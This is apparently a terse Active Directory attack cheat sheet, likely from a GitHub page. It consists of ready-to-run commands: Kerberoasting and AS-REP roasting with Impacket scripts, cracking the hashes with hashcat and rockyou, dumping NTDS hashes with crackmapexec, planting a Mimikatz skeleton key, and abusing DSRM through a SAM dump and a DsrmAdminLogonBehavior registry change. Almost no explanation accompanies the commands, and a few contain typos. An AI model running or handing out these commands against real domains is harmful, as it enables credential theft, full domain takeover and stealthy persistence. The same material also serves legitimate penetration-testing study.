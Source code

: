 ### Kerberoasting 

use GetUserSPNs.py to search for SPN users

```
// First Enumerate for SPN
python3 GetUserSPNs.py -dc-ip 192.168.68.132 GEMY.local/fcastle -hashes
// Request SPN Ticket
python3 GetUserSPNs.py -dc-ip 192.168.68.132 GEMY.local/fcastle -hashes  -request
// Use hashcat for cracking ticket
hashcat -m 13100 "ticket" /usr/share/wordlists/rockyou.txt
// Use crackmapexec to dump ntds file hashes
crackmapexec smb 192.168.68.132 -u 'SQLService' -p 'Password123!' --ntds drsuapi
```

### ASREP-ROASTING

use GetNPUsers.py to search for user with NotRequireKerberosPreAuth flag

```
python3 GetNPUsers.py domain.local/ -dc-ip DC-IP -usersfile users.txt
// use hashcat to crack the hash
hashcat -m 18200 hashes.txt /use/share/wordlists/rockyou.txt
```

### Skeleton-key

From mimikatz

```
privilege::debug
misc::skeleton
// try to login again with the master password:mimikatz
```

### DSRM Abuse

Dump Local Administrator NTLM Hash from Mimikatz

```
privilege:::debug
token::elevate
lsadump::sam
```

Check and set the value for LogonBehavior

```
// Check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior
// Create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
// Change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 
```
